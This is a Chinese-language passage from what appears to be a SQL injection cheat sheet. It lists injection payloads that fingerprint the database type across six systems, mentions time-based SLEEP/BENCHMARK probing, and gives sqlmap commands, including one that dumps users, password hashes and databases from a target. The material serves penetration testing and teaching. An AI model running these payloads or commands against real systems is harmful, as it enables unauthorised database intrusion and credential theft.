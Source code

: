 * **计时攻击**：输入导致故意延迟的SQL命令（例如，在MySQL中使用`SLEEP`或`BENCHMARK`函数）可以帮助识别潜在的注入点。如果应用程序在此类输入后响应异常缓慢，则可能易受攻击。



## 数据库类型识别

```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

# 使用SQLmap进行SQL注入

[sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap) 是一个开源的渗透测试工具，它自动化了检测和利用SQL注入漏洞以及接管数据库服务器的过程。

### SQLmap的基本参数

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### 加载请求文件并使用移动用户代理

```powershell
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```
